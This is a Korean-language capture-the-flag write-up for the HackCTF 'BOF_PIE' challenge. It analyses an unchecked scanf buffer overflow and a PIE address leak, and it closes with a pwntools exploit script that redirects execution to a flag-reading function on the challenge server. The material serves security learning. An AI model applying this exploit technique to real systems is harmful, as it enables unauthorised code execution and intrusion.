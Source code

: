 **HackCTF - BOF_PIE**

| layout | title            | auther   | categories | tags           |
| ------ | ---------------- | -------- | ---------- | -------------- |
| post   | HackCTF - offset | Y3oj4eng | writeup    | writeupwargame |


# Analysis
`file` 명령어를 통해 바이너리의 정보를 획득한다.
```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file bof_pie 
bof_pie: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=51bf2a67853257d1a3c8a539861e79160befe163, not stripped

```

`checksec` 명령어를 통해 해당 바이너리에 적용된 `mitigation`을 확인한다.

```bash
 at ubuntu in ~/Desktop/hackCTF
$ checksec bof_pie 
[*] '/home/mac/Desktop/hackCTF/bof_pie'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

이름대로 `PIE` 메모리 보호기법이 적용되어져 있으며 `NX`도 함꼐 적용되었다.
따라서 메모리 레이아웃 모든 영역이 랜덤하게 매핑되며 `Stack`과 `Heap` 영역에서의 실행권한을 갖지 못한다.

기본적인 정보는 모두 획득하였으니 프로그램을 실행시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./bof_pie 
Hello, Do you know j0n9hyun?
j0n9hyun is 0x5658c909
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    1965 segmentation fault (core dumped)  ./bof_pie

mac at ubuntu in ~/Desktop/hackCTF
$ ./bof_pie
Hello, Do you know j0n9hyun?
j0n9hyun is 0x565af909
AAAAAAAAAAAA
Nah...
```

바이너리를 실행시키면 `Hello, DO you know j0n9hyun?` 이라는 문자열을 첫 줄에 출력한 뒤
`jon9hyun is` 문자열과 함께 주소값을 출력한다.
이후에 사용자로부터 값을 입력받으며 첫 시도시에는 `segmentation fault` 에러를 뿜길래 두번째 시도에는 조금만 값을 입력했더니 `Nah...`라는 문자열을 출력한 뒤 프로그램이 종료되었다.

본격적으로 분석을 진행해본다.

![image](https://user-images.githubusercontent.com/33051018/75939161-ca624a80-5ecc-11ea-90da-5b2bd2f57a0a.png)

`main` 함수의 구성은 매우 간단했다.

`welcome` 이라는 함수를 호출한 이후, `Nah...` 문자열을 출력한 뒤 종료한다. `welcome`함수를 살펴보도록 한다.

![image](https://user-images.githubusercontent.com/33051018/75939392-68eeab80-5ecd-11ea-917f-be8d94cddf41.png)

`welcome` 함수는 버퍼를 초기화한 이후 일련의 문자열을 출력하고 해당 함수의 주소를 출력한다.
앞전에 프로그램을 실행시켰을때 출력되었던 주소값은 `welcome`함수의 주소값이였다.
이후 `scanf`함수를 통해 `buf` 변수에 값을 입력받는다.
이떄 입력값에 대한 길이를 검증하지 않아 `BOF` 취약점이 존재한다.
상황을 고려하였을때 쉘코드를 이용한 익스는 불가능해보여 함수들을 살펴보던중
`j0n9hyun` 이라는 함수를 확인할 수 있었고 해당 함수는 아래와같이 `flag`를 읽어오는 함수였다.

![image](https://user-images.githubusercontent.com/33051018/75940894-9b020c80-5ed1-11ea-8315-3ab1e440a9b6.png)

`scanf`에서 `BOF`가 터질때 `return address`를 j0n9hyun`의 주소로 뒤덮으면 된다.

그러나, 해당 문제에는 `PIE` 보호기법이 적용되어 프로그램을 실행시킬 때 마다 매번 출력하는 `welcome`함수의 주소가 변경된다. 이말은 즉  `j0n9hyun`함수의 주소도 랜덤하게 매핑된다는 의미이며
이를 해결하기 위해 상대적 주소 접근을 위한 `memory leak`이 필요하다.

**cf) func_addr = libc_base + func_offset**

![image](https://user-images.githubusercontent.com/33051018/75941145-41e6a880-5ed2-11ea-87b9-f3febd04259e.png)

`IDA`를 통해 익스에 필요한 두 함수의 `offset` 값을 알 수 있다.

대략적인 `exploit scenario`는 아래와 같다.
>1. 프로그램 실행중 출력해주는 `welcome`주소값 받아오기.
>2. `welcome_addr` - `welcome_offset` = `base` 연산을 통해 `base`값 획득
>3. 역으로 `base` + `j0n9hyun_offset` = `j0n9hyun_addr` 연산을 통해 `j0n9hyun`함수 주소 획득
>4. `scanf` 함수에서 터지는 `BOF`를 이용해 `return address`를 `j0n9hyun` 함수의 주소 로 `overwrite`




# Exploit
```python
from pwn import *                                                       

p = remote('ctf.j0n9hyun.xyz', 3008)                                    
#p = process('./bof_pie')                                               

# welcome & j0n9hyun offset                                                                      
welcome_offset = 0x00000909                                             
shell_offset = 0x00000890   
                                            
# get the welcome_addr
p.recvuntil('j0n9hyun is ')                                             
welcome_addr = int(p.recv(10), 16)                                      
print('welcome_addr : ' + hex(welcome_addr))                            

#find the base_addr, shell_addr
base = welcome_addr - welcome_offset                                                               
shell = base + shell_offset                                             
                                                                        
print('base addr : ' + hex(base))                                       
print('shell addr : ' + hex(shell))                                     
                                                                        
#dummy = 22bytes                                                                        
payload = 'A'*22                                                        
payload += p32(shell)                                                   
                                                                        
p.sendline(payload)                                                     
                                                                        
p.interactive() 
```

